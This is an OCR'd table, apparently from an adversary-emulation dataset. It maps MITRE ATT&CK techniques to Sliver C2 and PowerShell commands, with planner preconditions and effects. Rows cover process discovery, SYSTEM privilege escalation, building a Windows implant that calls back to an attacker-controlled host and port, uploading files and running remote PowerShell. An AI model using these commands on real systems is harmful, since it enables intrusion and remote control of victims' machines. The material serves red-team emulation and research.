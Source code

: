 | 3b3809b6-a54b-4f5b-8aff-cb51f2e97b34 | Process Discovery - Get-Process | \['T1057'\] | ART | \['windows'\] | \['Discovery'\] | \['Process Discovery'\] | Utilize Get-Process PowerShell cmdlet to identify processes.<br><br>Upon successful execution, powershell.exe will execute Get-Process to list processes. Output will be via stdout. <br> | {'executor': 'Powershell Executor', 'command': 'Get-Process\n'} | None | \['(powershell ?executor - executor ?target - host)', '(os_windows ?target - host)'\] | \['(process_info_known ?target - host)'\] |
| 877d3366-eab3-4f43-bd24-26b37eb70266 | Remote Processes List | \['T1057'\] | Sliver | \['windows', 'linux', 'macos'\] | \['Discovery'\] | \['Process Discovery'\] | The `ps` command lists all running processes on a remote system. It returns a list of processes with details such as the process ID (PID) and executable name. The command includes flags for exe, overflowing terminal width, filtering based on owner/pid, printing command line arguments, skipping the first n page(s), printing process tree and setting outtime. | {'executor': 'Sliver Executor', 'command': 'ps(#{SessionID})'} | {'SessionID': {'description': 'The session ID of the active Sliver connection.'}} | \[{'operator': 'or', 'operands': \['(os_windows ?t - host)', '(os_linux ?t - host)', '(os_macos ?t - host)'\]}, '(sliver_session ?s - executor ?t - host)'\] | \['(processes_info_known ?t - host)'\] |
| 5a1d2b9f-4e7f-8a4d-3f7a-6c2e5e9f9f7c | Privilege Escalation | \['T1134'\] | Sliver | \['windows'\] | \['Privilege Escalation'\] | \['Access Token Manipulation'\] | The `get_system` command attempts to gain SYSTEM-level privileges. | {'executor': 'Sliver Executor', 'command': 'get_system (#{hosting_process},#{config},#{SessionID})'} | {'hosting_process': {'description': 'Target process ID or name for privilege escalation'}, 'config': {'description': 'Configuration options for escalation method', 'default': 'Service'}, 'SessionID': {'description': 'The session ID of the active Sliver connection.'}} | \['(os_windows ?target - host)', '(sliver_session ?executorID - executor ?target - host)'\] | \['(elevated_executor ?executorID - executor)'\] |
| 0e67b73a-9927-43e1-8f64-04d38f1db57d | Build the executable file of a Sliver implant (for Windows) | \['T1071.001'\] | Manual | \['windows'\] | \['Command and Control'\] | \['Application Layer Protocol - Web Protocols'\] | The command is used in the Sliver C2 (Command and Control) framework to generate a payload designed for remote access to a target machine.<br> | {'executor': 'Sliver Console', 'command': 'sliver > generate --mtls #{LHOST}:#{LPORT} --os windows --arch 64bit --format exe --save #{SAVE_PATH}\nsliver > mtls --lport #{LPORT}\n'} | {'LHOST': {'default': None, 'description': 'IP address of the attacker machine', 'type': None}, 'LPORT': {'default': None, 'description': 'listening port of the attacter machine', 'type': None}, 'SAVE_PATH': {'default': None, 'description': 'Saved path of the generated payload', 'type': None}} | \['(os_windows ?target - host)', '(unallocated ?p - payload)', '(unallocated ?file - file)'\] | \['(sliver_implant_payload ?p - payload ?target - host)', '(file_payload ?p - payload ?file - file)', '(file_prepared_local ?file - file)', '(exe_file ?file - file)', '~(unallocated ?p - payload)', '~(unallocated ?file - file)'\] |
| b52e0d1e-a1d2-4299-9a38-cb9d2a7c8ce0 | Upload to Remote Path | \['T1105'\] | Sliver | \['windows', 'linux', 'macos'\] | \['Command and Control'\] | \['Ingress Tool Transfer'\] | The `upload <remote_path, data, is_ioc>` function writes data to the specified path on the remote file system. Parameters include remote_path (remote path), data (data to write), and is_ioc (data is an indicator of compromise). | {'executor': 'Sliver Executor', 'command': 'upload(#{RemotePath}, #{Data}, #{IsIOC})\n'} | {'RemotePath': {'description': 'Remote path'}, 'Data': {'description': 'Data to write'}, 'IsIOC': {'description': 'Data is an indicator of compromise'}} | \[{'operator': 'or', 'operands': \['(os_windows ?t - host)', '(os_linux ?t - host)', '(os_macos ?t - host)'\]}, '(sliver_session ?s - executor ?t - host)', '(file_prepared_local ?file - file)'\] | \['(file_exists ?path - path ?file - file ?t - host)'\] |
| 7bfba376-cebc-4094-b1e6-5103b2e83c4e | Execute PowerShell Command | \['T1059.001'\] | Sliver | \['windows'\] | \['Execution'\] | \['Command and Scripting Interpreter: PowerShell\n'\] | The `powershell.exe` command executes a PowerShell script or command on the remote host. This command is useful for performing system monitoring tasks or gathering information about the processes running on a remote machine. | {'executor': 'Sliver Executor', 'command': 'powershell(#{SessionID},#{Commands})'} | {'SessionID': {'description': 'The session ID of the active Sliver connection.'}} | \['(os_windows ?t - host)', '(sliver_session ?s1 - executor ?t - host)'\] | \['(powershell ?s2 - executor ?t - host)', {'operator': 'When', 'params': {'condition': '(elevated_executor ?s1 - executor)', 'effect': '(elevated_executor ?s2 - executor)'}}\] |